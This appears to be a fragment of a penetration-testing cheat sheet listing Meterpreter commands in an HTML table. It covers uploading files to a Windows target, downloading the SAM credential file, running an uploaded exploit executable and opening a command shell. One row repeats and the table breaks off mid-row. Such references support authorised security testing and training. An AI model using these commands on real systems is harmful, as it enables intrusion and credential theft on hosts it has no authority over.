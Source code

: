 Some useful meterpreter commands.

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Command</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>

    <tr>
      <td>
        <p><code>upload file c:\\windows</code></p>
      </td>
      <td>
            <p>Meterpreter upload file to Windows target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>download c:\\windows\\repair\\sam /tmp</code></p>
      </td>
      <td>
            <p>Meterpreter download file from Windows target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>download c:\\windows\\repair\\sam /tmp</code></p>
      </td>
      <td>
            <p>Meterpreter download file from Windows target</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>execute -f c:\\windows\temp\exploit.exe</code></p>
      </td>
      <td>
            <p>Meterpreter run .exe on target - handy for executing uploaded exploits</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>execute -f cmd -c </code></p>
      </td>
      <td>
            <p>Creates new channel with cmd shell</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>ps</code></p>
      </td>
      <td>
	    <p>Meterpreter show processes</p>
      </td>
    </tr>
    <tr>
      <td>
        <p><code>shell</code></p>
      </td>